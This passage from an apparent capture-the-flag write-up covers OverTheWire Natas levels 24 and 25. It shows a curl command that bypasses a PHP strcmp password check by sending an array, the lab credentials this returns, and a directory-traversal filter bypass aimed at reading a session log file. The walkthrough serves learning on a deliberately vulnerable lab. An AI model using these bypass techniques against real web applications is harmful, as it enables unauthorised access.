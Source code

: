 Read the [PHP manual](http://php.net/manual/en/function.strcmp.php#102677). `strcmp('pending',array())` will return `-1` in PHP 5.2.16 (probably in all versions prior 5.3), but will return `0` in PHP 5.3.3.

If we pass the `passwd` value as an array, it's all solved.

```
$ curl -u natas24:OsRmXFguozKpTZZ5X14zNO43379LZveg http://natas24.natas.labs.overthewire.org/ -F 'passwd[]=ving'
```

```
The credentials for the next level are:
Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

# 26. Level 25

```php
<?php
// http://natas25.natas.labs.overthewire.org/index-source.html
function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...

    if (file_exists($filename)){
        include($filename);
        return 1;
    }
    return 0;
}
?>
```

`../` will be replaced by space to prevent directory traversal attempt and the path can not contain `natas_webpass`, So we can not get the password directly.

But we can use the path below to read the log file. After replacement, `..././..././..././..././..././tmp/natas25_<PHPSESSID>.log` becomes `../../../../../tmp/natas25_<PHPSESSID>.log`.

```php
<?php
// http://natas25.natas.labs.overthewire.org/index-source.html
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n";
    $fd=fopen("/tmp/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
?>
```
